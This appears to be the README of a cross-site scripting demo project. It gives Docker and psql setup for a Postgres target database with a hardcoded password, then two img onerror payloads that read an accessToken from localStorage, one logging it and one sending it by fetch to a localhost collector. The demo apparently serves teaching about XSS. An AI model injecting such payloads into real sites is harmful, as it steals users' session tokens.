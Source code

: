 # Setup

```sh
sudo docker run --name xss-demo-target-db -p 4242:5432 -e POSTGRES_PASSWORD=1234 -d postgres:latest
sudo docker exec -it xss-demo-target-db psql -U postgres
CREATE DATABASE target;
cat db.sql | sudo docker exec -i xss-demo-target-db psql -U postgres target
```

Add this to `.env`:

```
PGCONNECTION=postgres://postgres:1234@localhost:4242/target
```

PGPASSWORD=1234 psql -h frankfurt-postgres.render.com -U target target -f db.sql

```html
<img src="" onerror="console.log(localStorage.getItem('accessToken'))" >
<img src="" onerror="fetch('http://localhost:3001?q='+localStorage.getItem('accessToken'))" >
```